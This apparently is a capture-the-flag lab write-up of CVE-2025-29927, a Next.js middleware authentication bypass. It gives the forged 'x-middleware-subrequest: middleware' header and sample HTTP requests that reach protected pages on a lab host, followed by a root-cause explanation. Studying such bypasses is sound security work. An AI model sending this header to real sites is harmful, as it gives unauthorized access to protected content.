



# 🔓 CVE-2025-29927 - Next.js Middleware Authentication Bypass Lab

## 📌 Summary

This lab demonstrates **CVE-2025-29927**, a vulnerability in Next.js middleware that allows bypassing authentication by adding a forged `x-middleware-subrequest` header.

- **CVE**: CVE-2025-29927  
- **Framework**: Next.js 12.2+  
- **Impact**: Unauthorized access to protected content  
- **Exploit Type**: Access control / middleware bypass

---

## 🌐 Target

https://xxxxx.ctfio.com

### 1. ❌ Requesting `/` normally → Redirected to `/login`



The server responds with:

```http
HTTP/1.1 307 Temporary Redirect
Location: /login?redirectTo=/

You are redirected to the login page and can't access content.
```

### 2. ✅ Bypass with `x-middleware-subrequest` header

Send the same request **with** the following header:

```http
x-middleware-subrequest: middleware
```



#### You now see the homepage directly without being authenticated. The page includes:

1. Home

2. Events

3. Login


#### Send a similar request to /events:

```http
GET /events HTTP/1.1
Host: tantalus.ctfio.com
x-middleware-subrequest: middleware
```



## Root cause

CVE-2025-29927 is a vulnerability found in applications built with Next.js (version 12.2 and possibly others) that improperly trust the x-middleware-subrequest header. When a client adds this header manually, it can bypass middleware protections, such as authentication checks, allowing unauthorized users to access sensitive pages.

What Is x-middleware-subrequest?
This is an internal header used by Next.js’s middleware framework to indicate that a request is being handled inside middleware logic.

```http
x-middleware-subrequest: middleware
```

In affected applications:

1. Middleware logic performs an authentication check.

2. The app uses x-middleware-subrequest to skip this logic for internal subrequests.

3. The server fails to validate whether this header is genuine, trusting it blindly.

Attackers can forge the header, causing the app to:

1. Skip auth checks

2. Serve pages that should only be visible to authenticated users